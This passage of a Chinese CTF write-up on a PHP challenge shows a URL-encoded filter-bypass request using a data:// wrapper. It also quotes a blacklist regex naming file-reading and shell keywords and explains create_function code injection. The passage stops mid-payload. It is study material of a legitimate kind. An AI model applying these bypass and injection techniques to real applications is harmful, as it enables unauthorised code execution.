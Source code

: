 

url编码之后

```
file=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0A&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2

post
file=1&debu=1
```

成功绕过前面5层



**6.create_function运用**

```
if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort
|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id
|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin
|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) 
//ban了这么这么多，肯定不能用一般方法传入payload了
{ 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";//包含了flag.php这个文件
    $code('', $arg);
} ?>
```

```
$code`和`$arg`可控，利用`$code('',$arg)`进行`create_function注入
```

**create_function**注入详解：https://www.cnblogs.com/-qing-/p/10816089.html

6.1由第5步中可见，需要通过flag[arg]=xxx，flag[code]=xxx传参

6.2利用create_function,对于

```
$aaa = create_function('$a, $b', 'return $a+$b;');

```

相当于

```
function aaa($a, $b){
    return $a+$b;
}  
```

对于

```
$code=return $a+$b;}fction();//
```

